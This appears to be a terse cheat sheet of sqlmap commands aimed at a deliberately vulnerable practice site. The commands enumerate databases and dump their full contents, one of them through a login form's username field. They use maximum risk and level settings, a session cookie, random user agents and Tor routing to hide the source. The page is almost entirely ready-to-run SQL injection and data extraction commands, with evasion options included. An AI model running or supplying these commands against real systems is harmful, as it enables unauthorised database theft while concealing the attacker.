 

dump
- sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1"
- sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs
- sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D <db-name> --cookie="security=low; PHPSESSID=13o5hlkjs3hur2pvnfkgim9t74" --dump-all --batch --output-dir="db-dump" --random-agent --risk=3 --level=5 --tor

- sqlmap -u .../login --data "username=a&password=b" -p username --dump --output-dir="db-dump"

Upload File
